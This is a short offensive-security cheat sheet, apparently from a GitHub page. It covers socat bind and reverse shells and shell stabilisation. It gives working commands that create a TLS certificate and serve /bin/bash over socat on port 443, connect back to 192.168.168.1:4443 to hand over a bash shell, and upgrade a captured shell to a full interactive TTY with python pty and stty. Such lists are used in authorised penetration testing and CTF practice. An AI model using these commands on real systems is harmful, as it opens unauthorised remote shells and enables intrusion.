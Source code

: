 ### SOCAT

#### OpenSSL

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```


```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```


```bash
socat - OPENSSL:10.11.0.4:443,verify=0
```

#### Reverse Shell

```shell
socat -d -d TCP4-LISTEN:4443 STDOUT
```

```bash
socat TCP4:192.168.168.1:4443 EXEC:/bin/bash
```






### Stable TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

echo $TERM
stty -a

stty raw -echo
fg

reset
export SHELL=bash
export TERM=tmux-256color
stty rows 52 columns 238

```

## No Python
```bash
export SHELL=bash
export TERM=tmux-256color
SHELL=/bin/bash script -q /dev/null
```



